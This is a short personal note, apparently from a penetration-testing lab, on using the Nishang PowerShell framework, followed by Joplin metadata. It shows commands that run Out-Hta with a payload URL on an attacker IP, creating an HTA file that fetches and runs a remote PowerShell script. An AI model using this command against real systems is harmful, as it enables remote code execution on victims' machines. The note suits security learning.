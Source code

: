 Nishang

### Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

go to /opt/nishang

find the scripts related to what is required: e.g. for hta extension file

> find . | grep -i hta

E.g. Out-HTA

> cd Client
> pwsh
> 
> . ./Out-Hta.ps1
> 
> Out-Hta -PayloadURL http://10.10.14.17/ippsec.ps1

id: 85f863ac1b834cae82575a30d4170a3a
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2022-01-19T04:11:12.584Z
updated_time: 2022-01-19T04:21:09.728Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-19T04:11:12.584Z
user_updated_time: 2022-01-19T04:21:09.728Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1